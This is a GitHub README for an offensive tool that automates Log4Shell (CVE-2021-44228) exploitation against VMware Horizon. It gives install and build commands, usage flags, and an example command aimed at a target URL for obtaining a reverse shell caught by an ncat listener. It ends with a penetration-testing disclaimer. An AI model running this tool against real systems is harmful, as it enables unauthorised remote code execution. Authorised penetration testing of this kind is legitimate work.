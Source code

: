 # Log4jHorizon
Exploiting CVE-2021-44228 in VMWare Horizon for remote code execution and more.

* BLOG COMING SOON

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process. See the blog post above for guidance on post-exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jHorizon \
    && cd Log4jHorizon && pip3 install -r requirements.txt
```

From the root of the Log4jHorizon repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jHorizon \
    && cd Log4jHorizon && docker build -t Log4jHorizon .
```

To run the container, run a command similar to the following with your command line flags appended. Note that the container will not catch the reverse shell. You need to create a ncat listener in a separate shell session:

```
```


# Usage

```
usage: exploit.py [-h] -u URL -i CALLBACK -p PORT

arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     VMWare Horizon base URL
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -u https://horizon.acme.com 
```

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.

